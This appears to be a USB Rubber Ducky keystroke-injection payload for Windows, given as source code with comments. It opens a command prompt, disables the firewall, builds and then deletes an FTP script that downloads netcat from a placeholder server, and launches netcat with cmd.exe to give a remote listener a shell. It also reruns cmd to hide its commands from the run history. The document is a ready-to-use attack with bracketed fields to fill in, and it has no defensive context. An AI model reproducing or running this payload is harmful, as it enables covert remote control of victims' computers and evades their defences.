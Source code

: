 REM This script will:
REM * create an FTP script that logs you in to the FTP server and download netcat
REM * delete the FTP script file
REM * run netcat in daemon mode
REM * run cmd.exe one more time to conceal the command we used in the run history.
REM 
REM Fill in the required information where you see the brackets.
```c
DELAY 10000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING cd %USERPROFILE%
ENTER
DELAY 100
STRING netsh firewall set opmode disable
ENTER
DELAY 2000
STRING echo open [IP] [PORT] > ftp.txt
ENTER
DELAY 100
STRING echo [USERNAME]>> ftp.txt
ENTER
DELAY 100
STRING echo [PASSWORD]>> ftp.txt
ENTER
DELAY 100
STRING echo bin >> ftp.txt
ENTER
DELAY 100
STRING echo get nc.exe >> ftp.txt
ENTER
DELAY 100
STRING echo bye >> ftp.txt
ENTER
DELAY 100
STRING ftp -s:ftp.txt
ENTER
STRING del ftp.txt & exit
ENTER
DELAY 2000
GUI r
DELAY 200
STRING nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe -d
ENTER
DELAY 2000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING exit
ENTER
```
